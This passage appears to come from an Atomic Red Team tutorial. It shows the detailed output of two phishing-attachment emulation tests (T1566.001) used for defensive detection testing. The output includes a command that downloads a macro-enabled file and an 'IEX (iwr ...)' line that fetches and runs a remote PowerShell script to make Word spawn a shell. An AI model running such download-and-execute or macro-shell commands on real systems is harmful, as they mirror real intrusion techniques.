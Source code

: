 
**Our First Command** \n We can build our first command now that we know which parameters are available. We would like to know more about what exactly happens when we test the Technique T1566.001. To get this information, we must include the name of the technique we want information about and then add the flag `-ShowDetails` to our command. Let's have a look at the command we constructed: `Invoke-AtomicTest T1566.001 -ShowDetails`. This command displays the details of all tests included in the T1566.001 Atomic.

 Atomic Test T1566.001 Details

```javascript
 PS C:\Users\Administrator> Invoke-AtomicTest T1566.001 -ShowDetails
PathToAtomicsFolder = C:\Tools\AtomicRedTeam\atomics

[********BEGIN TEST*******]
Technique: Phishing: Spearphishing Attachment T1566.001
Atomic Test Name: Download Macro-Enabled Phishing Attachment
Atomic Test Number: 1
Atomic Test GUID: 114ccff9-ae6d-4547-9ead-4cd69f687306
Description: This atomic test downloads a macro enabled document from the Atomic Red Team GitHub repository, simulating
an end user clicking a phishing link to download the file. The file "PhishingAttachment.xlsm" is downloaded to the %temp
% directory.

Attack Commands:
Executor: powershell
ElevationRequired: False
Command:
$url = 'http://localhost/PhishingAttachment.xlsm'
Invoke-WebRequest -Uri $url -OutFile $env:TEMP\PhishingAttachment.xlsm

Cleanup Commands:
Command:
Remove-Item $env:TEMP\PhishingAttachment.xlsm -ErrorAction Ignore
[!!!!!!!!END TEST!!!!!!!]


[********BEGIN TEST*******]
Technique: Phishing: Spearphishing Attachment T1566.001
Atomic Test Name: Word spawned a command shell and used an IP address in the command line
Atomic Test Number: 2
Atomic Test GUID: cbb6799a-425c-4f83-9194-5447a909d67f
Description: Word spawning a command prompt then running a command with an IP address in the command line is an indiciat
or of malicious activity. Upon execution, CMD will be lauchned and ping 8.8.8.8

Attack Commands:
Executor: powershell
ElevationRequired: False
Command:
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
$macrocode = "   Open `"#{jse_path}`" For Output As #1`n   Write #1, `"WScript.Quit`"`n   Close #1`n   Shell`$ `"ping 8.8.8.8`"`n"
Invoke-MalDoc -macroCode $macrocode -officeProduct "#{ms_product}"
Command (with inputs):
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
$macrocode = "   Open `"C:\Users\Public\art.jse`" For Output As #1`n   Write #1, `"WScript.Quit`"`n   Close #1`n   Shell`$ `"ping 8.8.8.8`"`n"
Invoke-MalDoc -macroCode $macrocode -officeProduct "Word"

```